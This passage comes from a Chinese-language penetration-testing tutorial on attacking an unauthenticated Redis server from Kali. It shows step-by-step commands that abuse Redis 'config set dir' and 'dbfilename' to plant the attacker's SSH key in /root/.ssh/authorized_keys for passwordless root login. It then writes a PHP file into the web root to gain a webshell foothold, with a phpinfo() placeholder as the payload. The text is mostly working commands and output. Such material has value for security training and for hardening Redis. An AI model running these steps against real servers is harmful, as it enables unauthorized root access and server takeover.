 ```bash
ssh-keygen -t rsa
```

将公钥导入 key.txt 文件（前后用\n\n 换行，避免和 Redis 里其他缓存数据混合）

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

再把 key.txt 文件内容写入目标主机的缓冲里

```bash
cat key.txt | redis-cli -h 192.168.0.126 -x set test
```

再通过设置参数，写入指定文件

```bash
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /root/.ssh
OK
192.168.0.126:6379> config set dbfilename authorized_keys
OK
192.168.0.126:6379> keys *
1) "test"
192.168.0.126:6379> get test
"\n\n\nssh-rsa xxxxxxxxxxxx \n\n\n\n"
192.168.0.126:6379> save
OK
192.168.0.126:6379>
```

如上则为成功写入 SSH 密钥文件，攻击机可无需密码远程连接目标主机 SSH

```bash
ssh root@192.168.0.126 -i <private_key>
```

## 0x06 WebShell 获取

当 SSH 不允许远程登录时，也可以通过写入 Web 目录控制目标主机

```bash
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /var/www/html
OK
192.168.0.126:6379> config set dbfilename xxx.php
OK
192.168.0.126:6379> set web "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
OK
192.168.0.126:6379> save
OK
```

